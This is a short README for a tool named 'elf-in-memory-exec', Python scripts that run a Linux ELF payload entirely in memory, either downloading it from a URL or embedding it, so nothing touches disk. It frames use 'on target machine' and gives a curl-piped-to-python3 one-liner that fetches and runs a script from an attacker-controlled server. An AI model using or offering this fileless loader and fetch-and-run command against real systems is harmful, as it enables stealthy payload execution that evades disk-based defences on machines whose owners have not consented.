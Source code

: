 # elf-in-memory-exec

### Introduction

Python3 scripts that executes an elf (linux executable format) completely in memory, nothing is written in disk. All you need is python3 on your host to run it. There are two scripts for two use cases:

- `download_exec_elf_in_memory.py` : Download and execute an elf in memory (payload url must be provided; staged)
- `exec_elf_in_memory.py` : Execute an elf in memory (payload is embedded in the script itself; unstaged)

### Usage

**First**, modify the script on your machine, set the necessary inputs under the `#MAIN CODE` section for whichever script you use. Follow the comments in the code.

**Second**, on target machine, as an example, run:

```
curl http://your-server/exec_elf_in_memory.py | python3
```
